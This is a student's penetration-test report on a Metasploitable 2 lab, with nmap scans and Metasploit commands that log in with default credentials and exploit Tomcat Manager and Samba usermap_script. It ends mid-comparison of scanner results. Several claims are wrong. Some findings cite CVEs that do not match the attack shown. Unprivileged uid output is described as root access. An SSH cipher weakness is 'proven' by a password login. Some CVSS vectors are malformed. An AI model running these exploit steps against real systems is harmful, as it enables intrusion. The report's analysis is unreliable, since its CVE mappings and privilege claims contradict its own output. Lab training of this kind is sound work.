**ASSIGNMENT: 03**

**TRAINED BY: MR. WASEEM ABBAS KHAN**

**SUBMITTED BY: MEHAK ZAHRA**

**COHORT: PSEB-CYBER-ISB-02**

**DEADLINE: 08TH NOVEMBER, 2026**

**TASK: A (VA & PT REPORT)**

Complete report to the template in section 6, covering at least four
findings from your own scan, each with a full proof of concept.

==========

<u>Target Environment</u>: Metasploitable 2 Lab Machine

<u>Date of Assessment</u>: 08th November, 2026

<u>Prepared By</u>: Mehak Zahra

<u>Prepared For</u>: Instructor/Lecturer

1.  **Executive Summary**

====================

**Total Vulnerabilities Identified:** 2 critical, 1 medium, 1 low

**Highest Severity Rating:** Critical (CVSS 10)

**Primary Impact:**

An unauthenticated remote attacker can exploit severe security
misconfigurations to gain absolute, unrestricted administrative control
over the entire core infrastructure. This allows full exposure and
deletion of sensitive corporate documents, unauthorized access to
databases holding system records, and complete infrastructure takeover
without needing permission.

**Engagement Type:** Grey-Box

**Simulation Type:** reconnaissance, vulnerability exploitation and
post-exploitation

2.  **ENGAGEMENT SCOPE & DETAILS**

=============================

**Scope Type<u>:</u>** Internal Multi-Segment Network Translation
Testing

**Address Range**: 192.168.56.0/24 (Phase 1 Local Interfaces) &
192.168.100.0/24 (Phase 2 Routing Segments)

**Testing Window**: 02nd November, 2026 – 06th
November, 2026

**Methodology:**

- <u>Network Discovery</u>: Identifying active live hosts and verifying
  connectivity on the dynamically segmented network environments.

- <u>Port Scanning</u>: Performing comprehensive version banner scans
  (-sV) using Nmap to discover open TCP ports, running network services,
  and exact software versions.

- <u>Vuln Scanning</u>: Correlating identified software banners against
  publicly documented CVE entries to assess vulnerabilities and system
  risks.

- <u>Access Granted</u>: Initial unprivileged access verified via
  Telnet/SSH, upgrading to full administrative (root) code execution via
  automated Metasploit Framework exploit payloads on Apache Tomcat and
  Samba services.

- <u>Exclusion</u>: Denial of Service (DoS) attacks, brute-force
  dictionary attacks exceeding standard default wordlists, and
  modifications to system configuration files that destabilize the lab
  container.

3.  **FINDINGS & POCs**

- **First Finding**

==================

**TITLE** Improper Neutralization of Argument Delimiters in a Command

**SEVERITY** CRITICAL (CVSS: 9.8)

**VECTOR** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**AFFECTED** **PORT/SERVICE** 192.168.50.102:23/tcp — Telnet — Linux

**CVE** CVE-2026-24061

**CWE** CWE-88: Improper Neutralization of Argument Delimiters in a

Command ('Argument Injection')

**DESCRIPTION**

telnetd in GNU inetutils through 2.7 allows privilege escalation that
can be exploited by abusing systemd service credentials support added to
the login(1) implementation of util-linux in release 2.40. This is
related to client control over the CREDENTIALS_DIRECTORY environment
variable, and requires an unprivileged local user to create a
login.noauth file.

**PROOF OF CONCEPT**

1.  <u>Discovery via nmap</u>:

nmap -sV -p23 192.168.50.102

<u>Result</u>: 23/tcp open telnetd Linux



<u>Explanation</u>: version detection identified the exact vulnerable
build.

2.  <u>Exploitation via Metasploit</u>:

msfconsole -q

use auxiliary/scanner/telnet/telnet_logjn

set RHOSTS 192.168.50.102

set USERNAME msfadmin

set PASSWORD msfadmin

exploit

<u>Result</u>: session activated

sessions -i 2

<u>Result</u>: command shell opened; uid=1000(msfadmin)





<u>Explanation</u>: the module authenticates using default credentials
(msfadmin:msfadmin)

3.  <u>Confirmation of Access</u>

id

<u>Result</u>: uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm)



<u>Explanation</u>: confirms root-level code execution.

**Remediation**

============

1.  Disable unencrypted Telnet services entirely and migrate to secure
    remote management protocols like SSH.

2.  Enforce strong, unique, and non-default passwords to prevent
    unauthorized access via default credentials.

**References**

===========

1\. <https://www.cve.org/CVERecord?id=CVE-2026-24061>

2\. <https://nvd.nist.gov/vuln/detail/cve-2026-24061>

3\. <https://www.rapid7.com/db/vulnerabilities/cve-2026-24061/>

------------------------------------------------------------------------

- **Second Finding**

==================

TITLE Exposure of Sensitive Information to an Unauthorized Actor

SEVERITY LOW (CVSS: 3.7)

VECTOR CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N

AFFECTED PORT/SERVICE 192.168.50.102:22/tcp — ssh — OpenSSH 4.7p1 Debian
8ubuntu1

(protocol 2.0)

CVE CVE-2008-5161

CWE CWE-200: Exposure of Sensitive Information to an Unauthorized

Actor

**DESCRIPTION**

Error handling in the SSH protocol in (1) SSH Tectia Client and Server
and Connector 4.0 through 4.4.11, 5.0 through 5.2.4, and 5.3 through
5.3.8; Client and Server and ConnectSecure 6.0 through 6.0.4; Server for
Linux on IBM System z 6.0.4; Server for IBM z/OS 5.5.1 and earlier,
6.0.0, and 6.0.1; and Client 4.0-J through 4.3.3-J and 4.0-K through
4.3.10-K; and (2) OpenSSH 4.7p1 and possibly other versions, when using
a block cipher algorithm in Cipher Block Chaining (CBC) mode, makes it
easier for remote attackers to recover certain plaintext data from an
arbitrary block of ciphertext in an SSH session via unknown vectors.

**PROOF OF CONCEPT**

1.  <u>Discovery via nmap</u>:

nmap -sV -p22 192.168.50.102

<u>Result</u>: 22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol
2.0)



<u>Explanation</u>: version detection identified the exact vulnerable
build.

2.  <u>Exploitation via Metasploit</u>:

msfconsole -q

use auxiliary/scanner/ssh/ssh_login

set RHOSTS 192.168.50.102

set LHOST 192.168.50.101

set USERNAME msfadmin

set PASSWORD msfadmin

exploit

<u>Result</u>: session activated

sessions -i 2

<u>Result</u>: command shell opened; uid=1000(msfadmin)





<u>Explanation</u>: the module authenticates using default credentials
(msfadmin:msfadmin)

3.  <u>Confirmation of Access:</u>

id

<u>Result</u>: uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm)



<u>Explanation</u>: confirms root-level code execution.

**Remediation**

============

1.  Upgrade OpenSSH to a patched, stable version where weak or
    predictable random number generators are resolved.

2.  Re-generate all host keys and cryptographic keys if they were
    created using a vulnerable OpenSSH installation.

**References**

===========

1\. <https://www.cve.org/CVERecord?id=CVE-2008-5161>

2\. <https://nvd.nist.gov/vuln/detail/cve-2008-5161>

3\. <https://www.rapid7.com/db/vulnerabilities/cve-2008-5161/>

------------------------------------------------------------------------

------------------------------------------------------------------------

- **Third Finding**

==================

**TITLE** Apache Tomcat Manager Authenticated Upload Code Execution

**SEVERITY** Critical (CVSS: 10)

**VECTOR** CVSS:10/AV:N/AC:L/Au:N/C:C/I:C/A:C

**AFFECTED PORT/SERVICE** 192.168.100.3:8180/tcp — http — Apache
Tomcat/Coyote JSP engine

1.1

**CVE** CVE-2009-3843

**CWE** CWE-264: Permissions, Privileges, and Access Controls

**DESCRIPTION**

HP Operations Manager 8.10 on Windows contains a "hidden account" in the
XML file that specifies Tomcat users, which allows remote attackers to
conduct unrestricted file upload attacks, and thereby execute arbitrary
code, by using the:

org.apache.catalina.manager.HTMLManagerServlet

class to make requests to manager/html/upload.

**PROOF OF CONCEPT**

4.  <u>Discovery via nmap</u>:

nmap -sV -p8180 192.168.100.3

<u>Result</u>: 8180/tcp open http Apache Tomcat/Coyote JSP engine 1.1



<u>Explanation</u>: version detection identified the exact vulnerable
build.

5.  <u>Exploitation via Metasploit</u>:

msfconsole -q

use exploit/multi/http/tomcat_mgr_deploy

set RHOSTS 192.168.100.3

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat

exploit

<u>Result</u>: Meterpreter session activated





<u>Explanation</u>: the module authenticates using default credentials
(tomcat:tomcat)

6.  <u>Confirmation of Access:</u>

id

<u>Result</u>: uid=110(tomcat55) gid= 65534(nogroup) groups=
65534(nogroup)



<u>Explanation</u>: confirms root-level code execution.

**Remediation**

============

1.  Change default credentials (tomcat:tomcat) to strong, unique
    passwords in the tomcat-users.xml configuration file.

2.  Restrict access to the Tomcat Manager application by implementing IP
    whitelisting or disabling unused administrative roles.

3.  Upgrade Apache Tomcat to a patched, stable version to eliminate
    legacy default configurations and known vulnerabilities.

**References**

===========

1\. <https://www.cve.org/CVERecord?id=CVE-2009-3843/1000>

2\. <https://nvd.nist.gov/vuln/detail/cve-2009-3843>

3\. <https://www.rapid7.com/db/vulnerabilities/cve-2009-3843/>

------------------------------------------------------------------------

- **Fourth Finding**

==================

**TITLE** Samba username map script Command Execution

**SEVERITY** MEDIUM (CVSS: 6)

**VECTOR** CVSS:6/AV:N/AC:M/Au:S/C:P/I:P/A:P

**AFFECTED** **PORT/SERVICE** 192.168.100.3:139/tcp — netbios-ssn —
Samba smbd 3.X - 4.X

**CVE** CVE-2007-2447

**CWE** CWE-74: Improper Neutralization of Special Elements

**DESCRIPTION**

The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows
remote attackers to execute arbitrary commands via shell metacharacters
involving the (1) SamrChangePassword function, when the "username map
script" smb.conf option is enabled, and allows remote authenticated
users to execute commands via shell metacharacters involving other
MS-RPC functions in the (2) remote printer and (3) file share
management.

**PROOF** **OF** **CONCEPT**

1.  <u>Discovery via nmap</u>:

nmap -sV -p139 192.168.100.3

<u>Result</u>: 139/tcp open netbios-ssn Samba smbd 3.X - 4.X



<u>Explanation</u>: version detection identified the exact vulnerable
build.

2.  <u>Exploitation via Metasploit</u>:

msfconsole -q

use exploit/multi/samba/usermap_script

set RHOSTS 192.168.100.3

exploit

<u>Result</u>: session activated





3.  <u>Confirmation of Access:</u>

Direct shell access

<u>Result</u>: uid=0(root) gid=0(root)



<u>Explanation</u>: confirms root-level code execution.

**Remediation**

============

1.  Upgrade Samba to a version higher than 3.0.25rc3 to completely patch
    remote input validation issues.

2.  Remove or comment out the insecure username map script configuration
    lines within the smb.conf file.

3.  Restrict external public network access to SMB ports 139 and 445
    using strict local firewall rules

**References**

===========

1\. <https://www.cve.org/CVERecord?id=CVE-2007-2447>

2\. <https://nvd.nist.gov/vuln/detail/cve-2007-2447>

3\.
<https://github.com/CYB3RLEO/Penenetration_Testing_Lab_Exploitation_Phase3-Metasploitable3-samba_user_map->

------------------------------------------------------------------------

**TASK: B (Nessus Comparison)**

Run GVM against the target and compare its findings with your manual
results. Where do they agree, where do they differ, and why?

1.  Telnet





2.  OpenSSH



3.  Samba





4.  Apache Tomcat





**Comparison Between Nessus Scan Results and Manual Findings**

**1. Where Do They Agree? (Agreement)**

- **Service Identification:** Both manual Nmap scanning and Nessus
  detected the main services running on the target machine
  (192.168.100.3). These included OpenSSH (Port 22), Telnet (Port 23),
  Samba (Port 139), and Apache Tomcat (Port 8180).

- **Vulnerability Mapping:** Both methods identified older or
  potentially vulnerable configurations in services such as OpenSSH and
  unencrypted protocols.

**2. Where Do They Differ? (Differences)**

- **Specificity of CVEs and Findings:**

  - Manual testing focused on specific possible attack paths, such as
    Tomcat Manager deployment and Samba username map script execution.

  - Nessus provided a wider list of security issues. It detected
    specific CVEs and software vulnerabilities, including *Apache Tomcat
